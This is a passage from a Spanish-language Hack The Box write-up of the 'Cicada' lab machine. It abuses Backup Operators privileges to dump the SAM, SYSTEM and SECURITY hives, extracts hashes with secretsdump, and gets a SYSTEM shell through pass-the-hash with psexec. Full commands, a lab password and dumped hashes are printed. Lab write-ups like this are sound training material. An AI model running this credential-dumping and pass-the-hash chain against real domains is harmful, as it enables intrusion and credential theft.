NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

Ser parte del grupo "Backup Operators" otorga acceso al sistema de archivos de DC gracias a los privilegios **SeBackup** y **SeRestore**. 

También podemos comprobar que tenemos estos privilegios.
```console
*Evil-WinRM* PS C:\Userwhoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Por lo cual, a partir de aquí la escalada de privilegios está clara.

## Abusing Backup Operator Group
Podemos hacer uso de [BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA) para exportar la SAM y los registros necesarios para poder dumpear los hashes y escalar privilegios haciendo Pass The Hash.

Nos clonamos el repo.
```console
C:\Users\pc\Desktop\cicada>git clone https://github.com/mpgn/BackupOperatorToDA
Cloning into 'BackupOperatorToDA'...
remote: Enumerating objects: 18, done.
remote: Counting objects: 100% (18/18), done.
remote: Compressing objects: 100% (16/16), done.
Receiving objects: 100% (18/18), 9.37 KiB | 1.87 MiB/s, done.
Resolving deltas: 100% (4/4), done.
remote: Total 18 (delta 4), reused 9 (delta 1), pack-reused 0 (from 0)
```

Nos abrimos la solución en Visual Studio y la compilamos como `Release`.


Y ya lo tenemos compilado.


Ahora en mi máquina Parrot, voy a crear un servidor SMB para compartirme el archivo de mi máquina anfitriona a la virtual.
```console
$ sudo impacket-smbserver -smb2support smbFolder .
```

Ahora simplemente lo copiamos, y listo.


Aquí tenemos el ejecutable.
```console
$ ls
BackupOperatorToDA.exe  combo.txt                    domain_computers.html  domain_policy.html  domain_users_by_group.html  users.txt
Backup_script.ps1       domain_computers_by_os.html  domain_groups.html     domain_trusts.html  domain_users.html
```

A través de la función `upload` de `evil-winrm` vamos a subir el ejecutable a la máquina víctima.

```console
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> upload BackupOperatorToDA.exe
                                        
Info: Uploading /home/pointedsec/Desktop/cicada/content/BackupOperatorToDA.exe to C:\Users\emily.oscars.CICADA\Desktop\BackupOperatorToDA.exe
                                        
Data: 24576 bytes of 24576 bytes copied
                                        
Info: Upload successful!
```

```console
Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> dir


    Directory: C:\Users\emily.oscars.CICADA\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/30/2024   3:41 PM          18432 BackupOperatorToDA.exe
-ar---         9/30/2024  10:25 AM             34 user.txt

```

Ahora podemos dumpear los archivos necesarios a la ruta que queramos.
```console
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> .\BackupOperatorToDA.exe -t \\CICADA-DC.cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt' -d cicada.htb -o C:\Users\emily.oscars.CICADA\Documents\
Making user token
Dumping SAM hive to C:\Users\emily.oscars.CICADA\Documents\SAM
Dumping SYSTEM hive to C:\Users\emily.oscars.CICADA\Documents\SYSTEM
Dumping SECURITY hive to C:\Users\emily.oscars.CICADA\Documents\SECURITY
```

Y aquí tenemos los archivos.
```console
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents>       dir


    Directory: C:\Users\emily.oscars.CICADA\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/30/2024   3:44 PM          28672 SAM
-a----         9/30/2024   3:44 PM          36864 SECURITY
-a----         9/30/2024   3:44 PM       18792448 SYSTEM

```

Ahora haciendo uso de la función `download` de `evil-winrm` podemos descargar los archivos.

```console
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> download SAM
                                        
Info: Downloading C:\Users\emily.oscars.CICADA\Documents\SAM to SAM
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> download SECURITY
                                        
Info: Downloading C:\Users\emily.oscars.CICADA\Documents\SECURITY to SECURITY
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> download SYSTEM
                                        
Info: Downloading C:\Users\emily.oscars.CICADA\Documents\SYSTEM to SYSTEM
                                        
Info: Download successful!
```

Y ya tenemos los ficheros en nuestro sistema.
```console
ls
BackupOperatorToDA.exe  domain_computers_by_os.html  domain_policy.html          domain_users.html  SYSTEM
Backup_script.ps1       domain_computers.html        domain_trusts.html          SAM                users.txt
combo.txt               domain_groups.html           domain_users_by_group.html  SECURITY
```

Una vez teniendolos, podemos hacer uso de `impacket-secretsdump` para conseguir los hashes de la SAM.
```console
$ impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL                                                         
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation                                                                                
                                                                                                                                        
[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)                                                                                    
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::         
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                 
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                                      
[*] Dumping cached domain logon information (domain/username:hash)             
[*] Dumping LSA Secrets
[*] $MACHINE.ACC                                                                                                                        
$MACHINE.ACC:plain_password_hex:6209748a5ab74c44bd98fc5015b6646467841a634c4a1b2d6733289c33f76fc6427f7ccd8f6d978a79eec3ae49eb8c0b5b14e193ec484ea1152e8a04e01a3403b3111c0373d126a566660a7dd083aec1921d53a82bc5129408627ae5be5e945ed58cfb77a2a50e9ffe7e6a4531febd965181e528815d264885921118fb7a74eff51306dbffa4d6a0c995be5c35063576fc4a3eba39d0168d4601da0a0c12748ae870ff36d7fb044649032f550f04c017f6d94675b3517d06450561c71ddf8734100898bf2c19359c69d1070977f070e3b8180210a92488534726005588
c0f269a7e182c3c04b96f7b5bc4af488e128f8                                                                                                  
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:188c2f3cb7592e18d1eae37991dee696                                                                               
[*] DPAPI_SYSTEM                                                    
dpapi_machinekey:0x0e3d4a419282c47327eb03989632b3bef8998f71
dpapi_userkey:0x4bb80d985193ae360a4d97f3ca06350b02549fbb                       
[*] NL$KM                                                                                                                               
 0000   CC 15 01 F7 64 39 1E 7A  5E 53 8C C1 74 E6 2B 01   ....d9.z^S..t.+.
 0010   36 9B 50 B8 D0 72 23 D9  B6 C5 6E 92 2F 57 08 D8   6.P..r#...n./W..
 0020   1E BA 8E 81 23 25 03 27  36 4C 19 B4 96 CD 25 1F   ....#%.'6L....%.
 0030   8F F9 7F 5D 71 E6 6E 8C  FF CB EB 5E 4E A4 E6 96   ...]q.n....^N...                                                                                   
NL$KM:cc1501f764391e7a5e538cc174e62b01369b50b8d07223d9b6c56e922f5708d81eba8e8123250327364c19b496cd251f8ff97f5d71e66e8cffcbeb5e4ea4e696                        
[-] NTDSHashes.__init__() got an unexpected keyword argument 'ldapFilter'                                                                                     
[*] Cleaning up...  
```

Ahora con `netexec` podemos comprobar que el hash es válido y todo ha salido bien.
```console
$ nxc smb 10.129.69.107 -u 'Administrator' -H 'aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341'
SMB         10.129.69.107   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.69.107   445    CICADA-DC        [+] cicada.htb\Administrator:2b87e7c93a3e8a0ea4a581937016f341 (Pwn3d!)
```

Y como paso final, con `psexec` podemos conseguir una consola como `nt authority\system` en la máquina víctima.

```console
$ psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341' Administrator@cicada.htb
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[*] Requesting shares on cicada.htb.....
[*] Found writable share ADMIN$
[*] Uploading file JWGaSBoD.exe
[*] Opening SVCManager on cicada.htb.....
[*] Creating service RppH on cicada.htb.....
[*] Starting service RppH.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2700]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Podemos ver la flag de `root`
```console
C:\Users\Administrator\Desktop> type root.txt
c2aa205baa167...
```

¡Y ya estaría!

Happy Hacking! 🚀